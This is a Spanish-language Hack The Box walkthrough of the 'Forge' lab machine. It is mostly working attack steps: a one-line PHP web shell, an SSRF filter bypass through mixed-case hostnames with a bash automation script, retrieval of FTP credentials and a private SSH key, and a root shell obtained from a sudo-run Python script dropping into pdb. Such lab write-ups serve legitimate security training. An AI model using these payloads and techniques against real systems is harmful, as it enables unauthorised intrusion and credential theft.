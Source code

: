 ```yaml
---
layout: single
title: Forge - Hack The Box
excerpt: "Forge se centra en un SSRF y su bypass"
date: 2018-11-24
classes: wide
header:
  teaser: /assets/images/htb-forge/forge1.png
categories:
  - hackthebox
  - writeup
tags:
  - hackthebox
  - SSRF  
  - script exploitation
---
```


# 10.10.11.111 Forge

![](/assets/images/htb-forge/forge1.png)

--------------------------

### PARTE 1. Reconocimiento

Con el script de escaneo en bash hemos descubierto los puertos 22(ssh) y 80(http)

```console
└─$ whatweb http://10.10.11.111
http://10.10.11.111 [302 Found] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.10.11.111], RedirectLocation[http://forge.htb], Title[302 Found]
```
Vamos a meter en el /etc/hosts el nombre Forge.htb.

--------------------------

### PARTE 2. SSRF

Entramos y tenemos una galeria de fotos:
![](/assets/images/htb-forge/forge2.png)

Tambien una ruta para subir una imagen.
Subimos la clásica shell.php  ```<?php echo "<pre>" . shell_exec($_REQUEST['cmd']) . "</pre>"; ?>``` y nos dan el enlace para visualizarlo:   ```http://forge.htb/uploads/lYl9YmpShrA2sOWeUw96``` Donde nos dicen que la foto no se puede visualizar y tiene errores.  
El asunto esque se inutiliza la shell porque muestra su codigo y no lo interpreta. Al ponerle por tanto un parametro como ```?cmd=whoami``` da un error 404.   

La otra opcion que tenemos es la de subir una foto por una url. (No se puede subir nada de internet porque por motivos de seguridad las maquinas de  hackthebox no
tienen salida a internet).
Como podemos meter una ruta,  a la que la web le hace una peticion, vamos a intentar un SSRF (mostrar urls de solo acceso interno, al ser la maquina la que hace la
peticion, y no nadie de fuera, las deberia mostrar)

![](/assets/images/htb-forge/forge3.png)

Ponemos ```http://localhost``` y nos dice que esta whitelisteado. Si ponemos ```http://127.1``` (otra manera de referenciar al localhost, no hay  problema).
Poniendo el nombre de la maquina ```http://forge.htb``` no, pero si cambiamos mayusculas por minusculas si ```http://ForGe.HtB```. 
Siguiendo el enlace dice que la foto tiene errores pero si le hacemos un curl ya nos da el codigo fuente de la pagina. 

Peticion -> POST a http://forge.htb/upload -> url=http://ForGe.hTb&remote=1

Como ya tenemos como meter el localhost, podemos acceder a subdominios restringidos y demas:
```console
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb
Found: test2.forge.htb (Status: 302) [Size: 281]
Found: news.forge.htb (Status: 302) [Size: 280]
└─$ gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -t 200 -u http://forge.htb -r
Found: admin.forge.htb (Status: 200) [Size: 27]
```
Me hice un script para que filtre el enlace y le haga una peticion curl (ya que si esperas mucho borra todo lo que hayas subido a/uploads)

```bash
#!/bin/bash

while true
do
	echo -n "$:> " && read url
	link=$(curl -s -X POST http://forge.htb/upload -d "url=$url&remote=1" | grep -oE '<strong><a href=".*?"' | awk '{print $2}' FS="=" | tr -d '"')
	curl -s $link
done
```
```console
└─$ ./forge.sh
$:>
$:> http://aDmIn.FoRgE.HtB
<!DOCTYPE html>
<html>
<head>
    <title>Admin Portal</title>
<h1 class="align-right margin-right"><a href="/announcements">Announcements</a></h1>
$:> http://aDmIn.FoRgE.HtB/announcements
        <li>An internal ftp server has been setup with credentials as user:heightofsecurity123!</li>
        <li>The /upload endpoint now supports ftp, ftps, http and https protocols for uploading from url.</li>
        <li>The /upload endpoint has been configured for easy scripting of uploads, and for uploading an image, one can simply pass a url with ?u=<url>;.</li>
$:> ftp://user:heightofsecurity123!@FoRgE.hTb
curl: no URL specified!
curl: try 'curl --help' or 'curl --manual' for more information
```
--------------------------

### PARTE 3: SSRF a /upload privilegiado

No deja acceder al ftp directamente, pero nos dice que la ruta ```/uploads?u``` permite mostrar archivos, a esta ruta seguimos accediendo con el SSRF 
ya que el **admin.** no esta expuesto hacia fuera.
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=http://aDmIn.FoRgE.HtB
```
Este /upload?u es de **admin.forge** no el mismo upload que **forge** asi que aunque el otro no lo admita este si.
> upload (normal) -> no ftp
> upload (normal) -> upload(admin)?u=ftp://

```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/user.txt
c8b54a838595536f1e761245432be86a
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/../../../../../
drwxr-xr-x    3 1000     1000         4096 Aug 04  2021 snap
-rw-r-----    1 0        1000           33 Oct 16 09:33 user.txt
```
Como el ftp nos muestra el /home (y no hay nada mas) pues hay que ver si hay un directorio *.ssh*
```console
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/      
-rw-------    1 1000     1000          564 May 31  2021 authorized_keys
-rw-------    1 1000     1000         2590 May 20  2021 id_rsa
-rw-------    1 1000     1000          564 May 20  2021 id_rsa.pub
$:> http://aDmIn.FoRgE.HtB/upload?u=ftp://user:heightofsecurity123!@FoRgE.hTb/.ssh/id_rsa  
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
....
```

Para explicar todo este lio de una manera mas visual:
![](/assets/images/htb-forge/forge4.png)

--------------------------

### PARTE 4: Escalada de Privilegios

Modifique el script para que guardara esto en un archivo id_rsa y luego ```chmod 600 ./id_rsa```.
```console
└─$ ssh -i id_rsa user@10.10.11.111
```
Ejecuto mi script de enumeracion:
- No hay ni SUIDS ni Capabilities interesantes
- Se puede ejecutar como SUDO sin contraseña: /usr/bin/python3 /opt/remote-manage.py
```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:34142
^C
```
No se que tiene este script:
```console
user@forge:~$ cat /opt/remote-manage.py
if clientsock.recv(1024).strip().decode() != 'secretadminpassword':
```
Utiliza la libreria subprocess, ejecutando comandos como ```ps -faux``` pero en un contexto cerrado (o sea hay que eleigr una opcion no puedes meter
input directamente y liarla). 

```console
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
└─$ ssh -i id_rsa user@10.10.11.111
user@forge:~$ nc 127.0.0.1 38099
Enter the secret passsword: secretadminpassword
Welcome admin!

What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
```

El asunto esque si pasa una exception (o sea metes algo que no sea ningun comando de los de arriba) sale a pdb

```console
What do you wanna do: 
[1] View processes
[2] View free memory
[3] View listening sockets
[4] Quit
a
user@forge:~$ sudo -u root /usr/bin/python3 /opt/remote-manage.py
Listening on localhost:38099
invalid literal for int() with base 10: b'a'
> /opt/remote-manage.py(27)<module>()
-> option = int(clientsock.recv(1024).strip())
(Pdb) os.system("/bin/bash")
root@forge:/home/user# whoami
root
```

En el directorio /root están tanto la root.txt como un script que borra todo lo que haya en /uploads y que se ejecuta cada poco tiempo.
